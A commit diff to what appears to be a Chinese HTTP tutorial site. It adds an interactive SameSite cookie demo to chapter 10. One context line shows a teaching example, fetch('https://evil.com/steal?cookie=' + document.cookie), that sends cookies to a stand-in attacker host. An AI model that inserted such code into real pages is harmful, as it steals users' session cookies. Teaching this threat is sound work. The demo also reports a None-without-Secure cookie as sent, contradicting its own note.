

Before and after one commit to 1998x-stack/HTTP-protocol-tutorial, a plain HTML site: page 10.html in a window 1280 px wide. Shown: the part 2389-3343 px from the top of the page at 99% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
feat(http-tutorial): 第10章新增 SameSite 是否携带 Cookie 交互演示

```diff
--- a/10.html
+++ b/10.html
@@ -127,6 +127,14 @@
             body { padding: 10px; }
             .main-content { padding: 20px; }
         }
+        /* SameSite 决策交互演示 */
+        .simulator { margin: 1.6rem 0; padding: 1rem 1.1rem; background: #f8faff; border: 1px solid #c7d2fe; border-radius: 16px; }
+        .sim-controls { display: grid; gap: .6rem; margin: .7rem 0; }
+        .sim-controls label { display: grid; gap: .25rem; font-weight: 600; color: #3730a3; font-size: .92rem; }
+        .sim-controls select { font: inherit; padding: .35rem .5rem; border: 1px solid #c7d2fe; border-radius: 10px; background: #fff; color: #1e293b; max-width: 100%; }
+        .sim-check { display: flex !important; align-items: center; gap: .5rem; font-weight: 500; }
+        .sim-out { display: block; margin-top: .6rem; padding: .8rem 1rem; background: #eef2ff; border-left: 5px solid #6366f1; border-radius: 0 12px 12px 0; line-height: 1.7; color: #1e293b; }
+        .sim-out .sim-code { display: inline-block; font-weight: 700; color: #fff; background: #4338ca; padding: .1rem .55rem; border-radius: 8px; margin-right: .4rem; font-family: 'JetBrains Mono', monospace; }
     </style>
     <link rel="stylesheet" href="theme.css">
 </head>
@@ -271,6 +279,31 @@
           <figcaption><span class="fig-no">图 10.2</span>　SameSite 三档对比：Strict 最安全但跨站体验差；Lax 是默认值与安全/体验平衡点；None 需搭配 Secure 才能用于跨站。</figcaption>
         </figure>
 
+        <section class="simulator" aria-labelledby="sim-ch10-title">
+          <h3 id="sim-ch10-title">交互演示：这次请求会带上 Cookie 吗？</h3>
+          <p>选定 Cookie 的 SameSite 属性与请求场景，判断浏览器是否回传该 Cookie。规则依据 RFC 6265bis 与 Chromium 对默认值的处理（未显式声明时按 Lax）。</p>
+          <div class="sim-controls">
+            <label>Cookie 的 SameSite 属性
+              <select data-sim="ss">
+                <option value="strict">SameSite=Strict</option>
+                <option value="lax">SameSite=Lax</option>
+                <option value="none">SameSite=None</option>
+                <option value="unset">未显式设置（浏览器默认）</option>
+              </select>
+            </label>
+            <label>请求场景
+              <select data-sim="scene">
+                <option value="same">同站请求（同注册域）</option>
+                <option value="topnav">跨站顶级导航（点击链接 GET）</option>
+                <option value="post">跨站 POST（表单提交）</option>
+                <option value="iframe">跨站 iframe 或子资源（img/script）</option>
+              </select>
+            </label>
+            <label class="sim-check"><input type="checkbox" data-sim="secure"> 同时设置了 <code>Secure</code></label>
+          </div>
+          <output class="sim-out" data-sim-out aria-live="polite"></output>
+        </section>
+
         <div class="warning">
           <p><strong>踩坑故事</strong>：2020年Chrome 80发布后，我们收到大量用户反馈"突然无法登录了"。排查发现：我们后端设置的Cookie没有明确指定SameSite属性，Chrome自动把它当作SameSite=Lax处理了。而我们的登录流程依赖一个第三方OAuth弹窗——弹窗是跨域的，所以Cookie发不过去。修复方案是在Cookie上显式设置 <code>SameSite=None; Secure</code>，让弹窗流程能正常传递Cookie。这次事故让我们团队深刻认识到：浏览器厂商的默认行为变化，真的能一夜之间搞崩你的系统。</p>
         </div>
@@ -401,6 +434,39 @@ fetch('https://evil.com/steal?cookie=' + document.cookie);</code></pre>
       btn.textContent = open ? '显示答案' : '收起答案';
     });
   })();
+
+  (function () {
+    var box = document.querySelector('.simulator');
+    if (!box) return;
+    var out = box.querySelector('[data-sim-out]');
+    var get = function (n) { return box.querySelector('[data-sim="' + n + '"]'); };
+    var SCENE = { same: '同站请求', topnav: '跨站顶级导航（GET 链接）', post: '跨站 POST', iframe: '跨站 iframe / 子资源' };
+    function render() {
+      var ss = get('ss').value, scene = get('scene').value, secure = get('secure').checked;
+      var eff = ss === 'unset' ? 'lax' : ss;
+      var head = '<span class="sim-code">' + (ss === 'unset' ? '未设置→Lax' : 'SameSite=' + ss.charAt(0).toUpperCase() + ss.slice(1)) + '</span>';
+      var note = '', sent;
+      if (scene === 'same') {
+        sent = true; note = '同站请求不经过 SameSite 限制，只要域名/路径匹配就会回传。';
+      } else if (eff === 'strict') {
+        sent = false; note = 'Strict 下任何跨站请求都不携带 Cookie，安全性最高，但从外部链接进站会“像未登录”。';
+      } else if (eff === 'lax') {
+        sent = scene === 'topnav';
+        note = sent
+          ? 'Lax 会为“顶级导航的 GET”放行，这是安全与体验的默认平衡点。'
+          : 'Lax 只放行顶级导航 GET；跨站 POST 与子资源不会携带 Cookie，能阻断大多数 CSRF。';
+        if (ss === 'unset') note += ' Chrome 80+ 将未声明的 Cookie 当作 Lax。';
+      } else {
+        sent = true;
+        note = 'None 允许跨站携带 Cookie，必须同时设置 Secure 才能在 HTTPS 下生效。';
+        if (!secure) note += ' 当前未勾选 Secure：现代浏览器会直接拒绝存储这个 Cookie。';
+      }
+      out.innerHTML = head + (sent ? '<strong>会携带</strong>' : '<strong>不携带</strong>')
+        + '　场景：' + SCENE[scene] + '<br>' + note;
+    }
+    box.querySelectorAll('[data-sim]').forEach(function (el) { el.addEventListener('change', render); });
+    render();
+  })();
 </script>
 </body>
 </html>
```
